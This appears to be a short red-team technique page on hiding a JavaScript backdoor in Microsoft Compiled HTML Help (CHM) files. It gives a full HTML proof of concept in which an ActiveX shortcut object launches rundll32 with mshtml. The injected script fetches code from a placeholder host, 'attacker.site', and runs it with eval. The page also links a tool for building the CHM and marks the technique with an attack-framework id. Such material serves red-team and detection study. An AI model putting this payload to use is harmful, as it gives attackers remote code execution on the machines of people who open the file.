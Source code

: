 # CHM files with JS
Microsoft Compiled HTML Help (CHM) is a Microsoft online help format, consisting of a collection of HTML pages and navigation tools, compressed in a binary format with the extension CHM. When programmically downloaded CHM files do not have to be "unblocked" to be executed.

[blogpost](https://thisissecurity.stormshield.com/2014/08/20/poweliks-command-line-confusion/)

HTML file which needs to be added to the CHM file
```html
<!DOCTYPE html><html><head><title>Click Me</title><head></head><body>
PoC ! <br>
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
<PARAM name="Button" value="Bitmap::shortcut">
<PARAM name="Item1" value=',rundll32.exe,javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://attacker.site/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}'>
<PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```

The CHM files can be automatically create via [creating Compiled HTML Help file](https://raw.githubusercontent.com/samratashok/nishang/master/Client/Out-CHM.ps1)


## Tools
########
########

```meta
ttp: T1000
internal: false
requirements:
results: user, admin
description: CHM file containing a custom JavaScript backdoor
```